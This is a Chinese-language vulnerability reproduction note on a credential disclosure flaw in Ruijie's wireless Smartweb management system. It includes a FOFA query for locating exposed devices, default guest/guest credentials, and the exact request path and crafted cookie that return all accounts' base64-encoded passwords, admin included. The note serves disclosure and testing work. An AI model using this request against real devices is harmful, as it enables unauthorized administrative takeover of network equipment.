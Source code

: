 # 锐捷Smartweb管理系统-密码信息泄露漏洞

## 漏洞描述

锐捷网络股份有限公司无线smartweb管理系统存在逻辑缺陷漏洞，攻击者可从漏洞获取到管理员账号密码，从而以管理员权限登录。

## 漏洞影响

> [!NOTE]
>
> 锐捷网络股份有限公司 无线smartweb管理系统

## FOFA

> [!NOTE]
>
> title="无线smartWeb--登录页面"

## 漏洞复现

登录页面如下

![](锐捷Smartweb管理系统-密码信息泄露漏洞.assets/1627363601314662.jpg)

默认存在 guest账户，账号密码为 **guest/guest**

其中登录的过程中搜索admin的数据后发现请求了一个文件 **/web/xml/webuser-auth.xml**，而且响应中包含了 admin密码的base64加密

![](锐捷Smartweb管理系统-密码信息泄露漏洞.assets/1627363601629065.jpg)

解密就可以获得 admin管理员的密码，尝试直接请求

```
http://xxx.xxx.xxx.xxx/web/xml/webuser-auth.xml

Cookie添加
Cookie: login=1; oid=1.3.6.1.4.1.4881.1.1.10.1.3; type=WS5302; auth=Z3Vlc3Q6Z3Vlc3Q%3D; user=guest
```

![](锐捷Smartweb管理系统-密码信息泄露漏洞.assets/16273636019116778.jpg)

直接获得所有的账户的等级标志和base64加密的账号密码

## Goby & POC

> [!NOTE]
>
> 已上传 https://github.com/PeiQi0/PeiQi-WIKI-POC Goby & POC 目录中
>
> Ruijie_smartweb_password_information_disclosure

![](锐捷Smartweb管理系统-密码信息泄露漏洞.assets/1627363602316585.jpg)

![](锐捷Smartweb管理系统-密码信息泄露漏洞.assets/1627363602728721.jpg)